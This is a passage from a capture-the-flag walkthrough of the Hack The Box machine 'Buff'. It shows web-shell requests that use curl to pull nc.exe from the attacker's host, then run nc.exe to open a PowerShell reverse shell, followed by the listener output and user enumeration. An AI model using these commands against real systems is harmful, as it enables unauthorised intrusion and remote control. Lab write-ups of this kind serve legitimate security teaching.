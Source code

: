 
> I am pretty sure another player uploaded plink there at some point, though at the time I had no idea what it was, or what it was used for.  It is an older and perhaps more common version of **`chisel`** that is packaged with Putty.


```text
GET /upload/kamehameha.php?telepathy=curl.exe+"http%3a//10.10.15.82%3a8090/nc.exe"+-o+nc.exe HTTP/1.1
Host: 10.10.10.198:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: sec_session_id=frdg4eee55pa3lu6ugvu3cnuts
Upgrade-Insecure-Requests: 1
DNT: 1
```

This time I used Burp to send the command to download `nc.exe` to the remote machine from mine using `curl`. 

## Initial Foothold

```text
http://10.10.10.198:8080//upload/kamehameha.php?telepathy=nc.exe%20-e%20powershell.exe%2010.10.15.82%2012346

┌──(zweilos㉿kali)-[~/htb/buff]
└─$ nc -lvnp 12346                                                                                  1 ⨯
listening on [any] 12346 ...
connect to [10.10.15.82] from (UNKNOWN) [10.10.10.198] 51161
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\gym\upload>
```

Next I used the `nc.exe` that I had uploaded to send a reverse shell back to my machine.  I received the connection back at my waiting netcat listener and got a PowerShell prompt.

```text
PS C:\xampp\htdocs\gym\upload> whoami /all
whoami /all

USER INFORMATION
----------------

User Name  SID                                           
========== ==============================================
buff\shaun S-1-5-21-2277156429-3381729605-2640630771-1001


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
```